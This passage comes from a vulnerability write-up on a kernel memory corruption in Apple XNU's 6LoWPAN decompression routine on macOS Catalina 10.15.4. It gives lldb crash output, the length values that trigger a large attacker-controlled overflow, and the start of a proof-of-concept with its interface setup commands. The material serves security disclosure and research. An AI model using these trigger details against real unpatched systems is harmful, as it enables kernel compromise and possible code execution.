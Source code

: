 ```c
    0xffffff8003ffa1d7 <+295>: int3   
    0xffffff8003ffa1d8 <+296>: sub    edx, ebp
->  0xffffff8003ffa1da <+298>: call   0xffffff8003998070        ; bcopy


(lldb) register read 
General Purpose Registers:
       rax = 0x0000000000000000
       rbx = 0x0000000000000000
       rcx = 0xffffff80669e3d28
       rdx = 0xfffffffffffffffe
       rdi = 0xffffff80602e1806
       rsi = 0xffffff80602e182b
       rbp = 0xffffff80669e3cf0
       rsp = 0xffffff80669e3c30
        r8 = 0xffffff80669e3c38
        r9 = 0xffffff80669e3c40
       r10 = 0x0000000000000000
       r11 = 0x0000000000000003
       r12 = 0x0000000000000028
       r13 = 0x0000000000000003
       r14 = 0xffffff80669e3d28
       r15 = 0xffffff80602e1803
       rip = 0xffffff8003ffa1da  kernel`sixxlowpan_uncompress + 298 [inlined] memmove at subrs.c:703
  kernel`sixxlowpan_uncompress + 298 [inlined] __memmove_chk at sixxlowpan.c:853
  kernel`sixxlowpan_uncompress + 298 at sixxlowpan.c:853
    rflags = 0x0000000000000393
        cs = 0x0000000000000008
        fs = 0x00000000ffff0000
        gs = 0x00000000669e0000

```

## POC 2 - Overflow 

However, we can trigger much more controlled memory corruptions with large payload sizes which also could likely be used for code execution. 

For example, using the following parameters:

`len = 0xffff`

`pf->payload_len = (0xffff - 3);`
`= 65532`
`pf->payload_len = 0xfffc`

This ends up with the memmove performing a write at payload + 40, of the data sourced by an attacker, of size 0xfffc-40 = (0xfff9) 65529. 

POC 2 demonstrates this:

```c
/***

Apple XNU 6LowPAN POC
Catalina 10.15.4

POC 2: Write 0xffd4 bytes - overflow

Run this on target machine (or local system if testing locally):
sudo ifconfig 6lowpan create
sudo ifconfig 6lowpan0 up
sudo ifconfig 6lowpan0 6lowpansetdev en0

***/
```